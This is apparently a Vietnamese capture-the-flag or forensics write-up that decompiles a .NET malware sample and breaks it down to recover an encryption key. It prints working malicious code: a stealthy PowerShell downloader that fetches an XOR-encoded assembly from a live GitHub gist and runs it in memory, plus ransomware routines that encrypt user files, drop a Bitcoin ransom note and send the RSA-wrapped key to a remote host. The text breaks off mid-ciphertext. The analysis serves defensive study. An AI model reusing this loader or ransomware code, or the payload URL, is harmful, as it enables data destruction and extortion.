      bool flag2 = ((uint) oQm0xzosrWM7CGTCsMZCODumwvt5ODG1drdBoIeM03A6xt9SK5NFYiMYXb1U.zhQ892cwXfEKgGNtZn21Z3hQvNHXfAKzSG9GnadJ3Xi2eeXuakGavLBLDCu9(NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.b6phwQBmZjWvbv4crkniEK5kqrwGEpXjjaMAVWKz5cFJavW79nYexn19w1ux) & 32768U /*0x8000*/) > 0U;
      bool flag3 = ((uint) oQm0xzosrWM7CGTCsMZCODumwvt5ODG1drdBoIeM03A6xt9SK5NFYiMYXb1U.zhQ892cwXfEKgGNtZn21Z3hQvNHXfAKzSG9GnadJ3Xi2eeXuakGavLBLDCu9(NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.MPE83S2xbTv5nYzW1kK7Sc34qr3AiLmq8HjuZPqrhguBknRBFAHKQSzL8SGp) & 32768U /*0x8000*/) > 0U;
      bool flag4 = ((uint) oQm0xzosrWM7CGTCsMZCODumwvt5ODG1drdBoIeM03A6xt9SK5NFYiMYXb1U.zhQ892cwXfEKgGNtZn21Z3hQvNHXfAKzSG9GnadJ3Xi2eeXuakGavLBLDCu9(NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.ih2EEe7itjfSw6e0ktJ3j9wLRv9q5YDzerFGTGepeJLdLDmSa1GdJtyeQ6g6) & 32768U /*0x8000*/) > 0U;
      if (flag1 & flag2 || flag1 & flag3 || flag1 & flag4)
      {
        Thread.Sleep(250);
        try
        {
          string str = $"Invoke-WebRequest -Uri '{NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.ZIDZvDLAFbRYxsxkwMl1lB7DELyeP0rfiJNEILKuap1H9eXgbiPbiwGYX2g2}' | Select-Object -ExpandProperty Content";
          string input = "";
          ProcessStartInfo processStartInfo = new ProcessStartInfo()
          {
            FileName = "powershell.exe",
            Arguments = $"-NoProfile -ExecutionPolicy Bypass -Command \"{str}\"",
            RedirectStandardOutput = true,
            RedirectStandardError = true,
            UseShellExecute = false,
            CreateNoWindow = true
          };
          using (Process process = new Process())
          {
            process.StartInfo = processStartInfo;
            process.Start();
            input = process.StandardOutput.ReadToEnd();
            process.WaitForExit();
          }
          MatchCollection matchCollection = Regex.Matches(input, "\\\\x([0-9A-Fa-f]{2})");
          byte[] numArray1 = new byte[matchCollection.Count];
          for (int i = 0; i < matchCollection.Count; ++i)
            numArray1[i] = ACX0qTJzEzq40qP5qFxb.LyHSmWJ0Vnpm9qdcd27J(matchCollection[i].Groups[1].Value, 16 /*0x10*/);
          byte[] numArray2 = ACX0qTJzEzq40qP5qFxb.wVkaAAeCf6BeWi8Flwtq(NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.YiiPCCvj2fk1dJrm3DrFAWX4eBGrQ9S7Yrk1tApStYHhGabddvJ81zQzpgk8);
          byte[] rawAssembly = new byte[numArray1.Length];
          for (int index = 0; index < numArray1.Length; ++index)
            rawAssembly[index] = (byte) ((uint) numArray1[index] ^ (uint) numArray2[index % numArray2.Length]);
          Assembly assembly = Assembly.Load(rawAssembly);
          MethodInfo entryPoint = assembly.EntryPoint;
          if (entryPoint != (MethodInfo) null)
          {
            object obj = (object) null;
            if (!entryPoint.IsStatic)
              obj = assembly.CreateInstance(entryPoint.DeclaringType.FullName);
            object[] parameters;
            if (entryPoint.GetParameters().Length == 0)
              parameters = (object[]) null;
            else
              parameters = new object[1]
              {
                (object) new string[0]
              };
            entryPoint.Invoke(obj, parameters);
          }
        }
        catch (Exception ex)
        {
        }
      }
      Thread.Sleep(250);
    }
  }

  private static bool roByDJH6ZwpyyMdfAo4PFI3PqRqzn0PSxC5Zg4kzrh6PUEFGOozNDZH3SKF4M1wI6K9GZ1nL6cPaKJJYpNJSKRzaheb()
  {
    bool flag;
    try
    {
      flag = oQm0xzosrWM7CGTCsMZCODumwvt5ODG1drdBoIeM03A6xt9SK5NFYiMYXb1U.rgXTs7mD5xW0pNhvBEkl5gT1M7CxjhLt6BgegsGiceVXuORoR8HLqgV1rzHGXir1sd7268MbWZoyrYKQyiCFBZDlhGy0("SbieDll.dll").ToInt32() != 0;
    }
    catch (Exception ex)
    {
      flag = false;
    }
    return flag;
  }

  private static bool pP3jQ2G5fRQOBkR4RuG4ivhEGAqezIt7vqpAJDH5RetSUjBUu1dokMPle3i3()
  {
    try
    {
      return new WebClient().DownloadString("http://ip-api.com/line/?fields=hosting").Contains("true");
    }
    catch (Exception ex)
    {
    }
    return false;
  }

  [DllImport("kernel32.dll", EntryPoint = "GetModuleHandle")]
  public static extern IntPtr rgXTs7mD5xW0pNhvBEkl5gT1M7CxjhLt6BgegsGiceVXuORoR8HLqgV1rzHGXir1sd7268MbWZoyrYKQyiCFBZDlhGy0(
    string JhF1EyEkLtc7VnxMoMysC2mx7wrEfcTfTyk3UEKC3gvM2yk2Snjrlx7d1W3yLTfEE4rt3NoAiA0ivALoyv1ibp9NMoeH);
}
```
- yEA8oSg5e02FNWc6DpGE
```
using System;
using System.Security.Cryptography;

#nullable disable
namespace ChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyoChiyo;

public class yEA8oSg5e02FNWc6DpGE
{
  public static object f5Mo9y1FK1yJy4poW9CE(string pXqYfeWgCBZOAYUjYnh)
  {
    RijndaelManaged rijndaelManaged = new RijndaelManaged();
    MD5CryptoServiceProvider cryptoServiceProvider = new MD5CryptoServiceProvider();
    byte[] destinationArray = new byte[32 /*0x20*/];
    byte[] buffer = ACX0qTJzEzq40qP5qFxb.wVkaAAeCf6BeWi8Flwtq(NB2mi1VBTasdlkjLKlk123LKJyCoMW0Zb5dK9QwIjZ6W6wYeHriq.DhMybcleyUJ8bZbaqtAkL3FTz6SQ840xELBsFWt9yekNCVYQ1WgRtjL1bTF3);
    byte[] hash = cryptoServiceProvider.ComputeHash(buffer);
    Array.Copy((Array) hash, 0, (Array) destinationArray, 0, 16 /*0x10*/);
    Array.Copy((Array) hash, 0, (Array) destinationArray, 15, 16 /*0x10*/);
    rijndaelManaged.Key = destinationArray;
    rijndaelManaged.Mode = CipherMode.ECB;
    ICryptoTransform decryptor = rijndaelManaged.CreateDecryptor();
    byte[] numArray = Convert.FromBase64String(pXqYfeWgCBZOAYUjYnh);
    byte[] inputBuffer = numArray;
    int length = numArray.Length;
    return (object) ACX0qTJzEzq40qP5qFxb.sJljw7gGxcYB8jRe1fPv(decryptor.TransformFinalBlock(inputBuffer, 0, length));
  }
}
```
Với chức năng từng class như sau:
Class 1: NB2mi1VBTasdlkj...
```
// Các string Base64 được mã hóa AES
public static string ZIDZvDLAFbRYx... = "/jd1pt5XzE3pc...";  // URL payload
public static string MDh3yXSMAdiG... = "bGpDok5Wv7ay...";   // URL backup 1
public static string tcJTN8G8WAtY... = "bGpDok5Wv7ay...";   // URL backup 2
public static string YiiPCCvj2fk1... = "y8yR2nViEW5g...";   // XOR key
public static string DhMybcleyUJ8... = "QjRrbkVFN1Uzdw==";  // AES master key

// Virtual Key Codes
public static int J7uvkxR0L... = 17;  // VK_CONTROL
public static int b6phwQBmZj.. = 67;  // VK_C
public static int MPE83S2xbT.. = 86;  // VK_V
public static int ih2EEe7itj.. = 65;  // VK_A
```
Class 2: ACX0qTJzEzq40qP5qFxb
```
// Chuyển string → byte[] bằng UTF8
wVkaAAeCf6BeWi8Flwtq(string s) → Encoding.UTF8.GetBytes(s)

// Chuyển byte[] → string bằng UTF8  
sJljw7gGxcYB8jRe1fPv(byte[] b) → Encoding.UTF8.GetString(b)

// Parse hex string → 1 byte
LyHSmWJ0Vnpm9qdcd27J(string hex, int base) → Convert.ToByte(hex, 16)
```
Class 3: yEA8oSg5e02FNWc6DpGE
```

    // Bước 1: Lấy master key dưới dạng UTF8 bytes
    // KHÔNG decode Base64 - dùng thẳng string "QjRrbkVFN1Uzdw=="
    byte[] buffer = UTF8.GetBytes("QjRrbkVFN1Uzdw==");

    // Bước 2: MD5 hash → tạo key 32 bytes với overlap trick
    byte[] hash = MD5(buffer);         // 16 bytes
    byte[] key  = new byte[32];
    Array.Copy(hash, 0, key,  0, 16);  // key[0..15]  = hash
    Array.Copy(hash, 0, key, 15, 16);  // key[15..30] = hash (overlap!)

    // Bước 3: Giải mã AES-ECB (không có IV)
    rijndael.Key  = key;
    rijndael.Mode = CipherMode.ECB;
    return UTF8.Decode(
        decryptor.TransformFinalBlock(FromBase64(encryptedBase64))
    );
```
Class 4: oQm0xzosrWM7CGT..., đây là class chính để tải và thực thi payload
Khi đã biết chức năng của các class thì dùng script để giải mã lấy url và XOR key xem nó đã tải và thực thi cái gì
```
import base64
import hashlib
from Crypto.Cipher import AES

# KHÔNG decode base64 - dùng thẳng string làm bytes
master_key = "QjRrbkVFN1Uzdw==".encode('utf-8')  # UTF8.GetBytes trực tiếp

md5 = hashlib.md5(master_key).digest()

key = bytearray(32)
for i in range(16):
    key[i] = md5[i]
for i in range(16):
    key[15 + i] = md5[i]

def decrypt(b64_str):
    data = base64.b64decode(b64_str)
    cipher = AES.new(bytes(key), AES.MODE_ECB)
    decrypted = cipher.decrypt(data)
    pad = decrypted[-1]
    return decrypted[:-pad].decode('utf-8', errors='ignore')

configs = {
    "URL payload": "/jd1pt5XzE3pcXSJ4FhYNxpBFHYGA6MOUaWVshBsinIckITH6QuPC9VFOBJE5b9hKwoXSJ9ftg4v9doYN1VhQUuayvJvCVZFXtxaMRtrg7DUlE9draq5y/iY+LJA2F+MY4mLvYvD3B7YN31QDn834JmqXeIYbJTVtWTCXa0WVzfI8lBkk9vrFozAirXaQrIJbYHDN4yPjkxkIdzRgilJpg==",
    "URL backup1":  "bGpDok5Wv7ay4P4dQmT5CUfcCAzpm3RZomFwoAsAWhlDzKsO4LDnp/7YvqOEGeEWqUzjsqYCTU97gpV5mHxi6A==",
    "URL backup2":  "bGpDok5Wv7ay4P4dQmT5CUfcCAzpm3RZomFwoAsAWhmuWIyJ6+9abjIbeWOjzTfUqUzjsqYCTU97gpV5mHxi6A==",
    "XOR key":      "y8yR2nViEW5gZl/FTZHGbA==",
}

for name, val in configs.items():
    print(f"{name}:\n  → {decrypt(val)}\n")
```
Sau khi chạy nhận được url chứa payload [link](https://gist.githubusercontent.com/YoNoob841/6e84cf5e3f766ce3b420d2e4edcc6ab6/raw/57e4d9dcd9691cd6286e9552d448e413f62f8b1f/NjtvSTuePfCiiXpCDzCUiCVBifJnLu) và XOR key để giải mã là `M1kar1`
Copy nội dung từ link và giải mã để nhận được tệp thực thi
```
import re

# Paste raw content từ URL vào đây
raw = r"\x00\x6b\xfb..."  # nội dung từ gist

# Parse \xNN → bytes
matches = re.findall(r'\\x([0-9A-Fa-f]{2})', raw)
payload_bytes = bytes(int(m, 16) for m in matches)

xor_key = b"M1kar1"

# Decrypt
result = bytes(payload_bytes[i] ^ xor_key[i % len(xor_key)] 
               for i in range(len(payload_bytes)))

# Lưu ra file để phân tích
with open("payload.bin", "wb") as f:
    f.write(result)

print(f"Magic bytes: {result[:4].hex()}")  
# Nếu ra 4D5A → PE file (.exe/.dll)
```
Đây lại là một file được viết bằng C#, tiếp tục phân tích bằng `dotpeek`

Đầu tiên kẻ tấn công để lại thông báo `All your files were encrypted. To decrypt them, send $3000 to the following Bitcoin address: 1A2b3C4d5E6f7G8h9I0jK1L2M3N4O5P6Q7R8S9T0U. After payment, you will receive the decryption key.` và file `helper.exe` để giải mã khi có key
```
  public void \u206‫‌‮‎‪‪​‬‭‮‬‌‬‮()
  {
    string folderPath = Environment.GetFolderPath(Environment.SpecialFolder.Desktop);
    for (int index = 0; index < 1; ++index)
    {
      string path = Path.Combine(folderPath, $"READ_ME_{index + 1}.txt");
      string contents = "All your files were encrypted. To decrypt them, send $3000 to the following Bitcoin address: 1A2b3C4d5E6f7G8h9I0jK1L2M3N4O5P6Q7R8S9T0U. After payment, you will receive the decryption key.";
      try
      {
        File.WriteAllText(path, contents);
      }
      catch
      {
      }
    }
    MatchCollection matchCollection = Regex.Matches("\\x4d\\x5a\\x90\\x00\\x03\\x00\\x00\\x00\\x04\\x00\\x00\\x00\\xff\\xff\\x00\\x0", "\\\\x([0-9A-Fa-f]{2})");
    byte[] bytes = new byte[matchCollection.Count];
    for (int i = 0; i < matchCollection.Count; ++i)
    {
      string str = matchCollection[i].Groups[1].Value;
      bytes[i] = Convert.ToByte(str, 16 /*0x10*/);
    }
    File.WriteAllBytes(Path.Combine(folderPath, "Helper.exe"), bytes);
  }
```
Sau đó sinh key ngẫu nhiên 32byte rồi mã hóa base64
```
public static class \u206C‏‌​‏​‭‍‫‏‎‏‭‏‌‬‫‬‫​‫‫‏‪‮
{
  private static readonly Aes \u200E‫‎‮‭‪‎​‭‎‫‮‌‬‭‍‫‮​‬‪‬‪‫‮‮ = Aes.Create();

  static \u206C‏‌​‏​‭‍‫‏‎‏‭‏‌‬‫‬‫​‫‫‏‪‮()
  {
    \u206C‏‌​‏​‭‍‫‏‎‏‭‏‌‬‫‬‫​‫‫‏‪‮.\u200E‫‎‮‭‪‎​‭‎‫‮‌‬‭‍‫‮​‬‪‬‪‫‮‮.Mode = CipherMode.CBC;
    \u206C‏‌​‏​‭‍‫‏‎‏‭‏‌‬‫‬‫​‫‫‏‪‮.\u200E‫‎‮‭‪‎​‭‎‫‮‌‬‭‍‫‮​‬‪‬‪‫‮‮.Padding = PaddingMode.PKCS7;
  }

  public static string \u200C‏​‪‎‭‏‬‍‍‌‭‍‌​‮()
  {
    byte[] numArray = new byte[32 /*0x20*/];
    using (RandomNumberGenerator randomNumberGenerator = RandomNumberGenerator.Create())
      randomNumberGenerator.GetBytes(numArray);
    return Convert.ToBase64String(numArray);
  }

  public static string \u200C‭‪‪‌‍​‫​‌‮‎‍​‎‏‫‏‭‌‭‌​‫‮(string _param0, string _param1)
  {
    \u206C‏‌​‏​‭‍‫‏‎‏‭‏‌‬‫‬‫​‫‫‏‪‮.\u200F‫‌‏‌‫​‭‫‎​‮‌‌‬‏​‌‫‌​‭‍‮(_param0, _param1);
    \u206C‏‌​‏​‭‍‫‏‎‏‭‏‌‬‫‬‫​‫‫‏‪‮.\u200E‫‎‮‭‪‎​‭‎‫‮‌‬‭‍‫‮​‬‪‬‪‫‮‮.Key = Convert.FromBase64String(_param1);
    \u206C‏‌​‏​‭‍‫‏‎‏‭‏‌‬‫‬‫​‫‫‏‪‮.\u200E‫‎‮‭‪‎​‭‎‫‮‌‬‭‍‫‮​‬‪‬‪‫‮‮.GenerateIV();
    byte[] array;
    using (ICryptoTransform encryptor = \u206C‏‌​‏​‭‍‫‏‎‏‭‏‌‬‫‬‫​‫‫‏‪‮.\u200E‫‎‮‭‪‎​‭‎‫‮‌‬‭‍‫‮​‬‪‬‪‫‮‮.CreateEncryptor())
    {
      using (MemoryStream memoryStream = new MemoryStream())
      {
        memoryStream.Write(\u206C‏‌​‏​‭‍‫‏‎‏‭‏‌‬‫‬‫​‫‫‏‪‮.\u200E‫‎‮‭‪‎​‭‎‫‮‌‬‭‍‫‮​‬‪‬‪‫‮‮.IV, 0, \u206C‏‌​‏​‭‍‫‏‎‏‭‏‌‬‫‬‫​‫‫‏‪‮.\u200E‫‎‮‭‪‎​‭‎‫‮‌‬‭‍‫‮​‬‪‬‪‫‮‮.IV.Length);
        using (CryptoStream cryptoStream = new CryptoStream((Stream) memoryStream, encryptor, CryptoStreamMode.Write))
        {
          byte[] bytes = Encoding.UTF8.GetBytes(_param0);
          cryptoStream.Write(bytes, 0, bytes.Length);
        }
        array = memoryStream.ToArray();
      }
    }
    return Convert.ToBase64String(array);
  }

  public static string \u200B‎‬​‏‬‫‎‭‍‪‪‮‎‌‍‎‏​‬‎‫‪‎‎‮‮(
    string _param0,
    string _param1)
  {
    \u206C‏‌​‏​‭‍‫‏‎‏‭‏‌‬‫‬‫​‫‫‏‪‮.\u200F‫‌‏‌‫​‭‫‎​‮‌‌‬‏​‌‫‌​‭‍‮(_param0, _param1);
    byte[] numArray = Convert.FromBase64String(_param0);
    byte[] destinationArray = new byte[16 /*0x10*/];
    Array.Copy((Array) numArray, (Array) destinationArray, 16 /*0x10*/);
    \u206C‏‌​‏​‭‍‫‏‎‏‭‏‌‬‫‬‫​‫‫‏‪‮.\u200E‫‎‮‭‪‎​‭‎‫‮‌‬‭‍‫‮​‬‪‬‪‫‮‮.Key = Convert.FromBase64String(_param1);
    \u206C‏‌​‏​‭‍‫‏‎‏‭‏‌‬‫‬‫​‫‫‏‪‮.\u200E‫‎‮‭‪‎​‭‎‫‮‌‬‭‍‫‮​‬‪‬‪‫‮‮.IV = destinationArray;
    using (ICryptoTransform decryptor = \u206C‏‌​‏​‭‍‫‏‎‏‭‏‌‬‫‬‫​‫‫‏‪‮.\u200E‫‎‮‭‪‎​‭‎‫‮‌‬‭‍‫‮​‬‪‬‪‫‮‮.CreateDecryptor())
    {
      using (MemoryStream memoryStream = new MemoryStream(numArray, 16 /*0x10*/, numArray.Length - 16 /*0x10*/))
      {
        using (CryptoStream cryptoStream = new CryptoStream((Stream) memoryStream, decryptor, CryptoStreamMode.Read))
        {
          using (StreamReader streamReader = new StreamReader((Stream) cryptoStream))
            return streamReader.ReadToEnd();
        }
      }
    }
  }

  private static void \u200F‫‌‏‌‫​‭‫‎​‮‌‌‬‏​‌‫‌​‭‍‮(string _param0, string _param1)
  {
    if (string.IsNullOrEmpty(_param0))
      throw new ArgumentException("Text cannot be null or empty.", "text");
    if (string.IsNullOrEmpty(_param1))
      throw new ArgumentException("Key cannot be null or empty.", "key");
  }
}
```
Tiếp đến là duyệt qua các file (Bỏ qua AppData) và mã hóa nội dung bằng AES + base64 sau đó đổi tên file thành `.foooo`
```
public class UN\u0060pwD\u003Bs\u0024N\u005CQ\u007B\u0026FEDtfP7\u00406o\u0023
{
  public string \u206A‎‎‮‏‪‮‎‫‏‭‪‍‌‬‬‭‭‏‮‌‫‫‎‮ = Environment.GetFolderPath(Environment.SpecialFolder.UserProfile);

  private static IEnumerable<string> \u202A‫‍‏‭‭‏‪‫‮‫‮‎‮‪‮‎‫‌‮‫‏‭‭‏‮‫‭‮(string _param0)
  {
    Stack<string> stringStack = new Stack<string>();
    stringStack.Push(_param0);
    while (stringStack.Count > 0)
    {
      string path = stringStack.Pop();
      string[] strArray1 = Array.Empty<string>();
      Array.Empty<string>();
      if (!path.Contains("AppData"))
      {
        try
        {
          strArray1 = Directory.GetFiles(path);
        }
        catch (UnauthorizedAccessException ex)
        {
        }
        catch (PathTooLongException ex)
        {
        }
        catch (DirectoryNotFoundException ex)
        {
        }
        string[] strArray = strArray1;
        for (int index = 0; index < strArray.Length; ++index)
          yield return strArray[index];
        strArray = (string[]) null;
        try
        {
          foreach (string directory in Directory.GetDirectories(path))
            stringStack.Push(directory);
        }
        catch (UnauthorizedAccessException ex)
        {
        }
        catch (PathTooLongException ex)
        {
        }
        catch (DirectoryNotFoundException ex)
        {
        }
        path = (string) null;
      }
    }
  }

```
Sau đó nó mã hóa key AES bằng RSA với `e` khá nhỏ 
```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Numerics;
using System.Text;
using System.Xml;

#nullable disable
public class \u206F‌‏​‍​‭‏‮‌‪‬‎‮‌‭‫​‌​‍‌‌‏‭‬‬‌‌‮
{
  public string \u200F​‪‬‮‎‏‏‎‎‪‍‪‏‭‍‬‫‮‮ = "<RSAKeyValue><Modulus>skPMyONckX14WQw3G+wzCRqjkbZQbgvjRbDQ1uWj8wE//18vnh4MgxPsyjcBXYjm20zNWqNOY8xAzEBEqpPfePa4zdU5mwJeFCAjPiVkpi7VCxoGzOyJjvxMGYog3Skp1BIZGvy1xjjDTCxTA/u/ko6lG0cHPtHZ+o6Nci+7zhVo9NTNwLAW7viJ0DGOr5/Z+xydOeqQM8rIBQ+ftmNS9MbUsxpLYsw43xV50dEBh7VUmLLCosxaNe+EmqEz/BDExSKLgJ0dpBeD9nXktmaI/jaDdBnauoBmaJSG/hNO/5fsTHVVmnm29fqwyeG46vfWiSXdl4z50nKEuwsZLdkP4/lDJOggJ1yE9cr9xS7m6jVjMbC5hQcD152WiB2Unwz2hWlwgfD93RfagomHu5r6P441Gbgqnq2nLt7XchRIxljKbHrgKwJ2epr0qr1JpACal1jYb8od60igweIXNuGSWFhl2JceIPwRr0blzXaZGaaVo0b+fmnWAsd2k41IO7NsqfTw59Oc3tXXoKeM+hYLu3OqK+xYbjD/Jpa8L3PpvcER3jak8VN4eiGF0APJGdOhMiQOIAFav5i21OJlUYhxCAzQBpYkE6ETgJhWyfOvE8B283XBBT1khXm/o+zfquqMrZ3QoxPlbqYVWhbz+WWep82a13l/mBO3bi24ZFoOAI8jaei8juhU0QdCHWkria3Si7OMPNpFwYrA4MuWHk54/JZZA13qonYmKNK02/6aQ3AsyFIwGj7MNzAFddP+qgx9mg6uFcFBYV5DzuBIRXe5Hqxx2LGBhKEM6+NXtGjOMujqNDyTu2gcKevTz//DUfdFLppy8sYpluBS1wI5HVeHUT53pY71YW8dNmzk88pMC+C9WpQfzh8nBC77zm8sgLEI2CL7AfirWZJJ6pieQ0Q3th8p5/kp7v3OG8m9zUOibXjsyItMxvdQHskpdn0L40HXpsTIBHyiHJ2OggVBrfZj1GyUqjatFXt2qctEdWW14NtlrRZrhUFjAN7FUyg9owTxX5qnV4x7j/zkhjd+kMpiTR4g3eRfoqrDIzsqMky7kvgKP5xgxZCD2Md5Qs/pQdyHBWA9VjYVW4ObXHPv/CXAvHtq4j+Aqkw1BKxi5hru7ue9QNyamCb9X/foVfneB0NCwq4kYLh2A6B54jSkaivOPTCeRWLhbzy75w3RkjubN8/PSfNsATSvIetzxC6eDFtNl7GYr3C7yhi69PHQGImBg9LTqiSDbzZ5kLGQeyfe+ulca58sBwLm1tksJltlkLwGcD0GsPZqc8jFPpDRbDRlH1z/oRyMT4cuBrbZjDE2XbBfTDBRjgPYasHM6J/VjzJ/0e9ra2jxunJsbke6eeXLCQ==</Modulus><Exponent>Cw==</Exponent></RSAKeyValue>";

  public byte[] \u202C‪‌‏‎‭‌​‫‍‪‏‭‏‮‌‌‬‪‭‍‬‪‮(string _param1)
  {
    string xml = this.\u200F​‪‬‮‎‏‏‎‎‪‍‪‏‭‍‬‫‮‮;
    XmlDocument xmlDocument = new XmlDocument();
    xmlDocument.LoadXml(xml);
    string innerText1 = xmlDocument.SelectSingleNode("//Modulus").InnerText;
    string innerText2 = xmlDocument.SelectSingleNode("//Exponent").InnerText;
    byte[] bytes = Encoding.UTF8.GetBytes(_param1);
    byte[] source1 = Convert.FromBase64String(innerText1);
    byte[] source2 = Convert.FromBase64String(innerText2);
    BigInteger bigInteger1 = new BigInteger(((IEnumerable<byte>) bytes).Reverse<byte>().ToArray<byte>());
    BigInteger bigInteger2 = new BigInteger(((IEnumerable<byte>) source1).Reverse<byte>().ToArray<byte>());
    BigInteger exponent = new BigInteger(((IEnumerable<byte>) source2).Reverse<byte>().ToArray<byte>());
    BigInteger modulus = bigInteger2;
    byte[] byteArray = BigInteger.ModPow(bigInteger1, exponent, modulus).ToByteArray();
    Array.Reverse((Array) byteArray);
    int length = source1.Length;
    if (byteArray.Length < length)
    {
      byte[] dst = new byte[length];
      Buffer.BlockCopy((Array) byteArray, 0, (Array) dst, length - byteArray.Length, byteArray.Length);
      return dst;
    }
    return byteArray.Length > length ? ((IEnumerable<byte>) byteArray).Skip<byte>(byteArray.Length - length).ToArray<byte>() : byteArray;
  }
}
```
Tiếp theo thực hiện gửi key qua kết nối TCP với ip `MTcyLjI1LjI0Mi4xOTc=` và port `MzEyNDU=` sau khi decode có được `172.25.242.197:31245`
```
public class \u202C‮‍‫‏‎‎​‬‭‮‬‏‬‪‍‬‬‮​‪‏‍‍​‫‎‮
{
  private string \u206C‏‮‍‭‏‬​‫‎‮‌‬‍‏‫‬‬‌‪‫‍‌‪‪‬‮ = Encoding.UTF8.GetString(Convert.FromBase64String("MTcyLjI1LjI0Mi4xOTc="));
  private string \u206E‎‬‏‮‏‭‎‮‎‎‫‏‌‮‎‬‎‎‮‍‎‬‌‫‍‪‭‮‮ = Encoding.UTF8.GetString(Convert.FromBase64String("MzEyNDU="));
  private TcpClient \u200E‪‬​‭‪‏‍‍‍‌‍‮‫‌‎‌‍​‮‍‏‍‭‏‮;

  private void \u202C‎‌‬‫‬‮‮‏‪‬‫‏‌‎‭‪‏‫‎‫‏​‍‮()
  {
    this.\u200E‪‬​‭‪‏‍‍‍‌‍‮‫‌‎‌‍​‮‍‏‍‭‏‮ = new TcpClient();
    this.\u200E‪‬​‭‪‏‍‍‍‌‍‮‫‌‎‌‍​‮‍‏‍‭‏‮.Connect(this.\u206C‏‮‍‭‏‬​‫‎‮‌‬‍‏‫‬‬‌‪‫‍‌‪‪‬‮, int.Parse(this.\u206E‎‬‏‮‏‭‎‮‎‎‫‏‌‮‎‬‎‎‮‍‎‬‌‫‍‪‭‮‮));
  }

  public void \u200B‌‌‍‌‍‫‬‬‪‫‭‮‍‎‍​‎‏‏‎‮‭‌‭‏​‎‪‌‬‪‮(string _param1)
  {
    if (this.\u200E‪‬​‭‪‏‍‍‍‌‍‮‫‌‎‌‍​‮‍‏‍‭‏‮ == null || !this.\u200E‪‬​‭‪‏‍‍‍‌‍‮‫‌‎‌‍​‮‍‏‍‭‏‮.Connected)
      this.\u202C‎‌‬‫‬‮‮‏‪‬‫‏‌‎‭‪‏‫‎‫‏​‍‮();
    NetworkStream stream = this.\u200E‪‬​‭‪‏‍‍‍‌‍‮‫‌‎‌‍​‮‍‏‍‭‏‮.GetStream();
    byte[] bytes = Encoding.UTF8.GetBytes(_param1);
    byte[] buffer = bytes;
    int length = bytes.Length;
    stream.Write(buffer, 0, length);
  }

  public void \u202E​‏‬‪‮‬‍‪‫‍‬‬‍‪‭​‏​‍‎​‍‮()
  {
    if (this.\u200E‪‬​‭‪‏‍‍‍‌‍‮‫‌‎‌‍​‮‍‏‍‭‏‮ == null)
      return;
    this.\u200E‪‬​‭‪‏‍‍‍‌‍‮‫‌‎‌‍​‮‍‏‍‭‏‮.Close();
    this.\u200E‪‬​‭‪‏‍‍‍‌‍‮‫‌‎‌‍​‮‍‏‍‭‏‮ = (TcpClient) null;
  }
}
```
Giờ ta sẽ mở file pcap để lấy lại key sau khi bị mã hóa
Sau khi filter bằng ip và follow tcp stream thì nhận được key, giờ thì có thể khôi phục key vì `e` khi mã hóa RSA khá nhỏ
```
import base64
import libnum

# RSA parameters từ malware
e = 11
ciphertext = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB8IC4Trih+khi8MyjTamCVBVadQHENaQxoOkz9SF8elWnrfIMICzVhwa1PIBP5x4MNcSCnAhjyu//ukvC5xkN/lbN1UpEwraijcFvwO4mEphW/gd2Z7lyORZ2zdVW3SNFCWVGIojzSl4Ph+xoHheJde9iAzT3z1fGT5NG5lWtV33